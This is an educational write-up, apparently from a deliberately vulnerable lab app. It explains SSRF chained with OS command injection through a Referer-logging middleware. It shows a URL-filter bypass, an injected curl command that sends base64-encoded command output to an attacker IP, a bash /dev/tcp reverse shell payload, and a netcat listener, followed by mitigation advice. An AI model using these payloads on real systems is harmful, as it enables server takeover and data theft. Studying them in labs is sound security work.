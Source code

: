 # SSRF and OS Command Injection

SSRF is a web application vulnerability which allows an attacker to trick the backend of the web application to make requests to an unintended server. This server can be in the internal network of the backend server or in the external network controlled by the attacker.

![Flow of a SSRF Attack](../images/ssrf.png)

A successful SSRF attack may result in unauthorized business operations or access to data, either on the vulnerable application itself or on other back-end systems with which the application can communicate. In certain situations, the SSRF vulnerability might grant an attacker the ability to carry out any command. An SSRF exploit that connects to external third-party systems may result in malicious forward assaults that appear to emanate from the firm hosting the vulnerable application.
This project implements a server-side analytics middleware which extracts the value of the “Referer” header of the HTTP request for logging purposes since it contains information about where the user came from, to this web application. The middleware also visits the URL in the “Referer” header to extract the content of the HTML anchor tag, which leads the user to this web application. This extracted information is then logged on the server using an OS command:
“`echo “${time} -- ${title} -- ${anchorTagText}” >> /mvwa/tmp/trpc.log`”
Also the developer has intended to implement a simple security measure to protect the server from malicious websites by filtering the sites that come from the “Referer” header so that only the allowed sites are visited and logged. The developer checks whether the website contained within the “Referer” header starts with “<http://allowed.com>” or not. If it does, only then the server fetches the HTML page of the website and logs the anchor tag text. An attacker can get around this problem easily by using HTTP authentication syntax. For example, “<http://xyz@my-website.com>” where “xyz” is treated as a username to the website “my-website.com”. If the attacker changes the “Referer” header to “<http://allowed.com@malicious-website.com>”, the filter will be bypassed and the request will still be sent to “malicious-website.com”.
Now, to exploit this vulnerability, an attacker can create his own website containing an anchor tag with vulnerable web application’s URI in the “href” attribute and malicious payload in the text content.

![Attacker’s web server containing anchor tags to vulnerable website](../images/ssrf-attacker-server.png)

The attacker can then intercept a request to the vulnerable web application using an intercepting proxy like Burp Suite and change the “Referer” header to contain the link to the attacker's website.  

![Intercepting a request in Burp Suite](../images/ssrf-burp.png)

The attacker can set the anchor tag text such that it modifies the original OS command that the server executes to append data to the logs, and allows him to execute arbitrary commands on the server. To receive the output of the executed command, the attacker can set up his own web server and send a request containing the output from the vulnerable web application server which he has exploited. For example, to receive the output of the linux command “uname -a”, the attacker can set the anchor tag text on his website to the following:`text”; curl http://192.168.101.232:3012/?output=`uname -a | base64 -w 0`; #`
When this anchor tag text will be filled in the original OS command, the result will look like:

```bash
echo “14-11-2022 5:52 AM IST -- Document -- text”; curl http://192.168.101.232:3012/?output=`uname -a | base64 -w 0`; # ” >> /mvwa/tmp/trpc.log
```

This above result consists of two OS commands, one echo command that echoes the above text to STDOUT and one curl command that sends a request to the attacker's server with the base64 encoded output of the “uname -a” command in the query parameter.

![Attacker’s request log server receives output from vulnerable website](../images/ssrf-and-command-injection-attacker-output.png)

![Decoding the base64 encoded data sent by the vulnerable website](../images/decoding-base64.png)

The above procedure to execute a command and receive its output is quite complicated, so an attacker might want to gain persistent shell access to the vulnerable web server. He can do so by executing a “Reverse Shell” bash payload using the above method. He can set the anchor tag text to the following to gain shell access:
`text”; bash -i >& /dev/tcp/192.168.101.232/3013 0>&1 #`
When the vulnerable web server executes this command, it sends connection requests to the attacker listening at port 3013 using netcat as follows: “nc -lnvp 3013”.

![Attacker gains persistent shell access to the vulnerable web server](../images/ssrd-and-command-injection-persistent-shell.png)

To prevent this vulnerability, the developer should not allow the server to send requests to untrusted websites and perform actions based on their content. If this functionality is required and there is no other way to implement it in the application logic, a proper whitelisting of trusted websites should be implemented. Moreover, OS commands shouldn’t be executed by the application to perform any actions, instead several API endpoints can be created to do the same tasks in a safer way. In case there’s no other way than to execute OS commands, untrusted input should be made sure to not be a part of the command or it should be filtered thoroughly before appending it to the OS command.
